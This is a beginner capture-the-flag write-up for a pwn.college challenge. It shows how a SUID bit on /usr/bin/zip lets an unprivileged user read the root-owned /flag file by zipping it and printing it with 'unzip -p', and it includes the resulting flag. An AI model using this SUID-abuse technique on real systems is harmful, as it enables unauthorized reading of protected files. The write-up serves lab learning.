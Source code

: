 # Challenge Name: zip
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/zip`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/zip
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/zip
```

-The `s` in `-rws` indicates it's a SUID binary.
-`zip` runs with **root privileges**.

## 🚀 Exploitation

The `zip` command in Linux is used to compress one or more files or directories into a .zip archive — a widely supported and portable format.

Indorder to reveal contents of /flag we need to use a tricky method which includes parsing the content of file to stdout while unziping the file.

Let's see how its done : 

```bash
cd /
zip myflag.zip flag
unzip -p myflag.zip flag | cat -
```

the -p option makes the content parsing to stdout possible and then we can reveal flag by piping it with cat .

Output:
```
pwn.college{gUHhEF3MY7XrWWe_5fNHRT_2xIh.dFjNxwSM0IzMyEzW}
```

